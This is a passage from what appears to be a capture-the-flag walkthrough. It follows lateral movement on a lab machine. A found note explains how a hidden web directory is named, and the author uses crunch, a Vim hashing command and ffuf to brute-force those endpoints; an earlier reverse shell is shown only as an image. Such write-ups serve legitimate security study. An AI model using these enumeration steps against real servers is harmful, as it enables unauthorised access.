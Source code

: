 ![evidence](./static/16-reverseshell.png)


## Lateral movement

When I explore the server, then I find the file `note.txt` in `/home/max`:
```
...SNIPPED...
The remote trigger is located in a hidden web directory that only you
should know - I verbally confirmed it with you. If you do not recall,
the directory is based on an algorithm: SHA1(lowercase alpha(a-z) +
"view" + digit(0-9) + digit(0-9)).
Example: SHA1(rview86) = 044c64c6964998ccb62e8facda730e8307f28de6 =
http://<ip>:8191/044c64c6964998ccb62e8facda730e8307f28de6/
- Scarpine
```
And I can see the structure of a hidden endpoint, and the number of combinations makes a brute-force attack viable. When I use the `crunch` command to create a wordlist:
```shell
crunch 7 7 -t @view%% -o wordlist_tcp_8191.txt
```
And I open the file `wordlist_tcp_8191.txt` with `Vim`, And I use the command `%g/^/.!<bash>` to run a bash command on each line:
```vim
%g/^/.!sha1sum | cut -d\  -f1
```
And I use the `ffuf` command with the `wordlist_tcp_8191.txt` file:
```shell
$ ffuf -w wordlist_tcp_8191.txt:FUZZ -u "http://192.168.2.30:8191/FUZZ/"\
> -fs 167
```
Then I get several endpoints:

![evidence](./static/17-ffuf.png)
